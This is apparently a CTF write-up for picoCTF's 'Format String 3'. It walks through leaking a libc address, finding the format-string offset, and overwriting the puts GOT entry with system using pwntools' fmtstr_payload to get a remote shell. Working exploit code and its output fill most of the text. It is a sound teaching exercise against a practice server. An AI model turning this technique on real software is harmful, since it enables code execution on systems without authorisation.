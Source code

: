# Format String 3

## Description
This program doesn't contain a win function. How can you win?
Download the binary [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download the source [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download libc [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2), download the interpreter [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2). Run the binary with these two files present in the same directory.
nc rhea.picoctf.net 57040

## My Approach
Let's analyze the `format-string-3.c` file to get a grasp of the program. The program's output look particularly like this:
```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x74749008a3f0
```
From the `format-string-3.c` file, the value `0x74749008a3f0` is the address of the `setvbuf`. This address will change everytime we reconnect to the challenge. One noticeable variable is the string `normal_string` has the value "/bin/sh", which can help us easily trigger `system("/bin/sh");` in C program. All we have to do is to somehow change the `puts` function into `system` function. We can do this by overwrite the GOT entry for the `puts` function into `system` function. We will perform this by exploiting format string vulnerability. To read more about this vulnerability, please check this [book](chrome-extension://kdpelmjpfafjppnhbloffcjpeomlnpah/https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Finding the GOT address of the `puts` function
There are many ways to find it. The fastest way is to use command `objdump -d format-string-3` piped with command `grep puts` to disassemble all the functions used in `format-string-3` and find the `puts` function:
```
$ objdump -d format-string-3 | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
  40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
The GOT entry for `puts` is right before the `<puts@GLIBC_2.2.5>`, which is `0x404018`. You can also use tools like `gdb` or `ghidra` to disassemble the `puts` function but I found this way more convenient. You can also use `python3` to find it:
```
# elf = ELF("format-string-3")
# puts_got = elf.got['puts']
# print(hex(puts_got))
```

### Finding the base address of libc
Some functions like `setvbuf` and `system` are located in libc. However, the location of libc in memory is determined by runtime, which explains why we have different address of `setvbuf` each time we reconnect. This process (called ASLR) is used to defend certain type of attacks and the base address of libc changes due to this. To find it, we can subtract the address value of `setvbuf` we get from the server with the actual address of `setvbuf` in libc file. Finding this base address isn't hard but first we have to find the address of `setvbuf` in libc file:
```
$ objdump -d libc.so.6 | grep setvbuf
000000000007a3f0 <_IO_setvbuf@@GLIBC_2.2.5>:
```
Now we can calculate the base address of libc. Remember, this base address changes everytime we reconnect to the server. Using `pwn` library can help the tasks flow smoother:
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

def conn():
    # if args.LOCAL:
    #     r = process([exe.path])
    #     if args.DEBUG:
    #         gdb.attach(r)
    # else:
    r = remote("rhea.picoctf.net", 57040)

    return r
p = conn()
p.recvline()
setvbuf_mem = int(p.recvline()[-13:-1],16) # Extracting the address of setvbuf in server's memory and convert it into integer
setvbuf_libc = 0x07a3f0
libc_base = setvbuf_mem-setvbuf_libc
```

### Calculating the address of `system` in memory
To calculate the actual address of `system` from the server, we can add the address of `system` from libc file to the base address of libc. First, the address of `system` in libc file can be found using the same way (in this case, it's 0x4f760):
```
$ objdump -d libc.so.6 | grep system
000000000004f760 <__libc_system@@GLIBC_PRIVATE>:
   4f767:       74 07                   je     4f770 <__libc_system@@GLIBC_PRIVATE+0x10>
```
Now, we calculate:
```
system_libc = 0x4f760
system_mem = libc+system_libc
```

### Overwriting the GOT entry for `puts` into `system`
We're gonna use `fmtstr_payload` to overwrite the value of the GOT entry for `puts`. To do this, we first need to find the offset value. By spamming `%p`, we can see the offset:
```
p=conn()
p.sendline(b'%p.'*50)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x796376407963.0xfbad208b.0x7ffdc650ab60.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
Until the string `%p.` are repeated (which is 0x70252e in hex), there are 38 chunks of `%p.` shows different value. We can adjusting the number repeated downto 38:
```
p=conn()
p.sendline(b'%p.'*38)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x78b5b22a6963.0xfbad208b.0x7ffe74629b80.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
The offset is 38. Put everything together, we can send our payload like this:
```
payload = fmtstr_payload(38, {puts_got: system_mem})
p.sendline(payload)
p.sendline(b"ls")
for i in range(10):
    print(p.recvline())
```
The output looks like this:
```
 python3 solution.py
[*] '/home/zedttxj/test/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
0x404018
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'                                                                                               c               \x8b                                                         \xf0            \x01                       \x00
                                                         \x00aaaaba\x18@@Makefile\n'
b'artifacts.tar.gz\n'
b'flag.txt\n'
b'format-string-3\n'
b'format-string-3.c\n'
b'ld-linux-x86-64.so.2\n'
b'libc.so.6\n'
b'metadata.json\n'
b'profile\n'
```
We successfully execute another `/bin/sh` shell. We also listed all the files in the current directive using `ls` and found out `flag.txt`
```
